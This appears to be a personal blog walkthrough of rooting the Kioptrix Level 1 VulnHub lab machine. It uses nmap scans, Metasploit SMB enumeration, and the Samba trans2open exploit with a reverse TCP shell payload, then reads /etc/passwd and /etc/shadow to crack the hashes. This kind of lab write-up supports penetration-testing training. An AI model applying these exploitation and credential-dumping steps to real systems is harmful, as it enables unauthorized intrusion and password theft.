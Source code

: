 +++
title = 'Kioptrix Level 1 Walkthrough'
date = 2022-10-20T03:21:26-04:00
summary = 'Kioptrix is usually the starting point of all penetration testers, the first box we pawn. Here is a walkthrough of how I rooted my kioptrix box.'
+++

# PAWN KIOPTRIX LEVEL 1

> Tools: Nmap, SearchSploit, MetaSploit, Google
![](/images/kioptrix/kioptrix.webp)

You can download kioptrix from [vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/). I will not cover setting up Kioptrix on a virtualbox but it is a simple process you can get tutorials or writes-ups.

Once you have kioptrix and your attacker machine(We will use Kali linux) ready, we are ready to hack the h*ll out of kioptrix.
We need to know the ip address of kioptrix. To do this, we will have to scan from our attacker machine. Check your ip adress of Kali by:
> ifconfig

![](/images/kioptrix/kioptrix1.webp)

On my case, my kali linux ip is 192.168.100.200

Now, we will scan all other machines running on the same network as kali linux by using nmap and -r for range of /24:

> nmap -r 192.168.100.200/24

![](/images/kioptrix/kioptrix2.webp)

Observe carefully and you will discover a machine running on oracle virtualbox. That is our kioptrix machine. Mine is running on 192.168.100.201

Now that we have our ip address, we will need to collect as much information as we can about the services running on it to discover if some may have vulnerabilities. We will conduct an inclusive recon using nmap and the -A option, -p- to scan all ports that are up and -T4 which is a time factor I consider most efficient:

> sudo nmap -A -p- -T4 192.168.100.201

![](/images/kioptrix/kioptrix3.webp)

Interesting, right???
We observe tcp running on 22, http on port 80, smbd on port 139, and many more services. Usually, I love to check what the http looks like so I navigated to http://192.168.100.201:80

![](/images/kioptrix/kioptrix4.webp)

We notice it is running apache. It provides more information that it is running on red hat linux. You can navigate to a non-existing page here like /whoareyou. Of course, it gives you an error that page not found, but will tell you what apache it is running on and you can research on vulnerabilities for such. Mine as observed from both the scan and http page, is running apache 1.3.20

![](/images/kioptrix/kioptrix5.webp)

My interest though was on the service running on port 139, the samba smbd. I researched about it and discovered it is a server daemon that provides filesharing and printing services to clients.
Not much information was provided about it from the scan. I needed to know what version it was running and find out if it could have some vulnerabilities.
I found out that I could use metasploit to enumerate the service. Niceee!!!
Fire up metasploit from the terminal by:

> msfconsole

We can search the module to enumerate by:

> search smb_version

We’ll get a module auxiliary/scanner/smb/smb_version. We can use it by:

> use auxiliary/scanner/smb/smb_version

Or by simply

> use 0

We type options and set the rhosts to the ip of kioptrix by:

> set rhosts 192.168.100.201

Now hit the command run or exploit

![](/images/kioptrix/kioptrix6.webp)

We discover that kioptrix is running version 2.2.1a.\
From numerous research, I found out that Samba 2.2 is vulnerable. We can use a certain tool, searchsploit to find some of the vulnerabilities by the command:

> searchsploit samba 2.2

![](/images/kioptrix/kioptrix7.webp)

We notice the word trans2open in almost every exploit. Must be something interesting about it right? Let’s find out\
In metasploit, do:

> search trans2open

![](/images/kioptrix/kioptrix8.webp)

Different modules are displayed. Though, through our enumeration, we are aware we are running linux so we use 1.
Check options and set rhosts to your kioptrix ip address.
Now hit exploit.

We notice that it runs with no success. This is because we have not set a the correct payload. Hit ctrl+c

By some research, we discover a great payload for getting a reverse shell(of course this is our goal). Use:

> search x86/shell_reverse_tcp

![](/images/kioptrix/kioptrix9.webp)

We get some few options to use. I always love a staged payload for some reasons, hence I tried some of these and settled on the third.\
I then set it by the following command:

> set payload payload/bsdi/x86/shell_reverse_tcp

Now I hit exploit:

![](/images/kioptrix/kioptrix10.webp)

A reverse shell gets generated!!\
Running whoami on the shell, it confirms we are root user hence we can do all kinds of stuff here.\
I love checking users on the machine by checking the /etc/passwd file:

> cat /etc/passwd

![](/images/kioptrix/kioptrix11.webp)

Though, this only has users. Passwords of these users are stored on /etc/shadow file

> cat /etc/shadow

![](/images/kioptrix/kioptrix12.webp)

You have the password hashes and what remains is to go crack these passwords using tools like hashcat. There are much more things you can do at this stage since you are already a root user(you own the box by now). Check the flag at */home/root* if it is a CTF

Fun, ain’t it :)